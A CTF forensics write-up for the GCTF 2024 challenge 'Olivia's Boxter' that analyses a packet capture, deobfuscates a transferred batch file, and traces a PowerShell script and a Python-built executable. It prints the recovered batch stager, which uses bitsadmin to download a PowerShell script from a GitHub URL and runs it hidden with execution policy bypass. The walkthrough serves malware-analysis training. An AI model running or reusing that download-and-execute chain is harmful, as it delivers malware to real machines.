

repository: encient/encient.github.io · page: ctf/2024/gctf-2024/forensics/olivias-boxter/index.html · generator: mkdocs

## Description
![](oli1.png)
///caption
///

## Solution
![](oli2.png)
Going through ICMP protocol, we can see some message there: “Boss, i have hacked into someone computer. Let me try the new malware we developed here!” 

![](oli3.png) 
Going through the FTP stream we can see the attacker log in using FTP and and perform file transferring. 

![](oli4.png) 
Looking the next stream would be the file that is transferred, which looks like an obfuscated batch file. We can search for [batch deobfusctator](https://github.com/DissectMalware/batch_deobfuscator) online to get the content of the file 

```batch {title="OliRod.bat"}
bitsadmin.exe /transfer "78fb98208c7f6ee6c0ed7bf761e614eb" https://raw.githubusercontent.com/6E3372/OliRod/main/Photo/Olivia.ps1 \Olivia.ps1

powershell.exe -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND "\Olivia.ps1" 
```
We can navigate to the GitHub link to download the PowerShell file named `Olivia.ps1`. 
![](oli5.png)
This file is also kind of obfuscated which makes it hard for us to understand the function. We need to read and understand the code within the function in order to know what is going on in this file. 
![](oli6.png) 
Instead of understanding line by line and decoding it, we can just run the code using [tio.run](https://tio.run/#powershell).  We can deduce that this PowerShell script is trying to download `OliviaRodrigo.exe` and rename it into random strings. 
![](oli7.png) 
After downloading the file, using `strings` command we can guess that this might be a Python executable. Therefore, we can try to decompile it and get the source code. 
![](oli8.png) 
Decompile the exe by using [pyinstractor](https://github.com/extremecoders-re/pyinstxtractor) and [decompyle++](https://github.com/extremecoders-re/decompyle-builds/releases/tag/build-16-Aug-2024-dc6ca4a) so that we can get the source code back. 
![](oli9.png)
